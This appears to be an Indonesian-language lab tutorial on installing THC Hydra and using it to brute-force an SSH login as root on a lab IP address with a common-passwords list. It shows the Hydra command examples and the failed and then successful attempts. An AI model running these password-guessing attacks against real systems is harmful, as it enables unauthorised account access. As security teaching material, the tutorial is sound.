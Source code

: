 INSTALASI THC HYDRA
-------------------
- **Step 1**    : Clone repository THC Hydra
```
git clone https://github.com/vanhauser-thc/thc-hydra.git
```
- **Step 2**    : Untuk menkonfigurasi, compile dan menginstall Hydra, ketik kode berikut di terminal:
```
cd thc-hydra
./configure
make
make install
```

SUPPORTED PLATFORMS
-------------------
- Semua platform UNIX (Linux, *bsd, Solaris, etc.)
- MacOS
- Windows dengan Cygwin (IPv4 and IPv6)
- Mobile systems based on Linux, MacOS or QNX (e.g. Android, iPhone, Blackberry 10, Zaurus, iPad)

UJI COBA
--------
**Contoh**:
```
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```
Pertama, Siapkan file yang terdiri dari kumpulan password yang dipisahkan oleh baris atau download [disini](/assets/ncrack-hydra/500-worst-passwords.txt). Pada uji coba kali ini, kita akan mencoba melakukan _brute force attack_ pada protokol SSH ke ip address `10.151.36.98` dengan asumsi username `root` dan list password menggunakan file yang telah disiapkan, jalankan perintah dibawah ini pada terminal :
```
hydra -l root -P 500-worst-passwords.txt 10.151.36.98 ssh
```
![](/assets/ncrack-hydra/hydra-gagal.png)
Uji Coba gagal karena password yang digunakan tidak berada dalam file [500-worst-passwords.txt](/assets/ncrack-hydra/500-worst-passwords.txt), tambahkan password yang digunakan dengan cara:
```
echo "kucinglucu" >> 500-worst-passwords.txt
```
![](/assets/ncrack-hydra/hydra-sukses.png)

KESIMPULAN
----------
Dengan uji coba yang telah dilakukan, THC Hydra dapat berhasil menyerang protokol ssh dengan _brute force attack_ jika password dari target terdapat didalam file password yang dibuat oleh penyerang dengan waktu 2 menit. Jika password tidak terdapat dalam file, maka serangan akan gagal.








